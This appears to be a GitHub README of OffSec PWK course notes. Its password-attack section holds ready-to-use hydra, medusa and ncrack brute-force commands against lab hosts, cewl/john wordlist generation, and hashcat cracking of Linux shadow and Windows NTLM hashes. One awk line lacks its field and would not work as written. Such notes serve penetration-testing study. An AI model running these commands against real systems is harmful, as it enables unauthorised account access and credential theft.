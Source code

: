 # Offsec

Offsec PWK notes and frecuently used files.

<ol>
  <li>Scanning and Enumeration</li>
  <li>Exploitation</li>
  <li>Exploit Development</li>
  <li>Password Attacks</li>
  <li>Reverse Shells</li>
  <li>Privilege Escalation</li>
  <li>File Transfers</li>
  <li>Post Exploitation</li>
  <li>Port Forwarding</li>
  <li>Web Attacks</li>
</ol>

<h3> 4. Dictionary Attacks </h3> 

ncrack -vv --user rax -P wordlist.txt rdp://10.11.0.10

medusa -h 10.11.0.10 -u root -P /usr/share/wordlists/rockyou.txt -e ns -M ssh

hydra -l administrator -P wordlist.txt 192.168.11.201 ssh

hydra $TGT:80 http-form-post "/PHP/index.php:nickname=^USER^&password=^PASS^:bad password" -l garry -P /usr/share/wordlists/nmap.lst -t 10 -w 30 -o hydra-http-post-attack.txt

<h4> Password Generation with cewl and John </h4>

cewl http://10.11.1.1/index.html >> words.txt

john --wordlist=words.txt --rules --stdout >> wordlist.txt

<h4> Cracking Hashes - Linux </h4>

cat shadow.txt | awk -F':' '{print }' > hashes.txt

hashcat -m 500 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt

hashcat -m 1800 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt

<h4> Cracking Hashes - Windows </h4>

hashcat -m 1000 -a 0 -o output.txt --remove hashes.txt /usr/share/wordlists/rockyou.txt

